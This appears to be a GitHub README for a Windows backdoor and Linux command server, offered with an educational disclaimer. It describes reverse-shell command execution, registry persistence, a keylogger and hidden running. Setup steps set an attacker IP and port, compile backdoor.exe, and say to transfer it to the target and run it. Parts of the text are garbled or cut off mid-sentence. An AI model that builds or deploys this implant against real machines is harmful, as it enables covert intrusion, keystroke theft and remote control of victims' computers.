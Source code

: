 # Backdoor and Server for Penetration Testing

## Overview

This repository contains a **backdoor program** and its corresponding **server** implementation, designed for ethical hacking purposes. These programs demonstrate how attackers establish connections, execute commands, and persist on a target system andit.

> **Disclaimer:** This project is strictly for educational purposes. Unauthorized use of this code is illegal. The author is not responsible for any misuse.

>**Compatibility:** The backdoor program is designed to work on **Windows 10** machines,while the server can run on a **Linux** system. The backdoor uses Windows-specific libraries,including **ws

### Development Plan (`malwareplan.txt`)
1. Establish a connection with the server.
2. Implement a shell function to handle incoming commands.
3. Ensure automatic startup after a system reboot.
4. Enable the backdoor to spawn additional programs.
5. Add directory navigation capabilities.
6. Integrate a keylogger to log user inputs.
7. Run the backdoor silently in the background without showing a console window.
## Features

### Backdoor (`backdoor.c`)
- **Server Connection:** Establishes a persistent connection to the attacker's server.
- **Command Execution:** Receives and executes shell commands from the server.
- **Persistence Mechanism:** Modifies the registry to ensure automatic execution after system reboot.
- **Directory Navigation:** Allows changing directories on the target system.
- **Keylogger Integration:** Starts a keylogger to capture keystrokes.
- **Program Spawning:** Enables the spawning of additional programs.

### Server (`server.c`)
- **Connection Listener:** Listens for incoming connections from the backdoor.
- **Command Execution:** Sends shell commands to the backdoor and displays the responses.
- **Special Commands:**
  - `persist`: Activates the backdoor's persistence mechanism.
  - `keylog_start`: Starts the keylogger on the target machine.
  - `cd <directory>`: Changes the working directory on the target machine.
  - `q`: Terminates the connection with the target.

### 

## Installation and Setup

### Prerequisites
- **Development Environment:**  
  - GCC (for compilation)
  - Linux for the server and Windows for the backdoor
- **Networking Knowledge:** Basic understanding of socket programming.
- **Environment Setup:** Ensure you have an attacker machine (Linux) and a target machine (Windows-Windows 10 advisable).

### Compiling the Programs
- **Compile the backdoor:**
#### Backdoor
1. Update the following placeholders in `backdoor.c` and `server.c` with the attacker's IP and setup PORT:
  **for backdoor.c**
    ```c
   ServIP = "<attacker-IP>";
   ServPort = <PORT-No>;
  **for server.c**
  ```c
server_address.sin_addr.s_addr=inet_addr("<attacker-IP machine>");
		server_address.sin_port=htons(<PORT-No>);
```
3. Compile the backdoor on Windows 10 using the following command using:
   **gcc backdoor.c -o backdoor.exe -lws2_32 -lwininet**
   This command will create a Windows executable backdoor.exe that can run on a **Windows 10** system.
4. Transfer the **backdoor.exe** to the target **Windows 10** machine and run it.
 
